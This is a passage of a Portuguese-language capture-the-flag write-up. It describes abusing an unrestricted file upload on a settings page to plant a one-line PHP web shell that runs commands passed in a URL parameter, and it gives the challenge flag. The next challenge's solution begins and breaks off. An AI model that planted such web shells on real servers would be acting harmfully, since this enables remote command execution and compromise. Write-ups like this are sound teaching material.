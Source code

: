 
Na pagina settings, iremos abusar da função de File Upload para executar o ataque Unrestricted File upload, permitindo-nos colocar uma web shell no servidor que ira executar comandos.

<img src="images/Pasted image 20230822161455.png">


Crie um arquivo com o seguinte conteudo
```php
<?php echo system($_GET['rce']);?>
```

Acesse-o pelo endpoint /uploads/

<img src="images/Pasted image 20230822161305.png">

Flag - ALQ{P0UC4VULNPR4MU1TOC0D3}

## MDK (50)
### Descrição

### Solução detalhada

Ao entrar na pagina, identificamos uma pagina de login e register
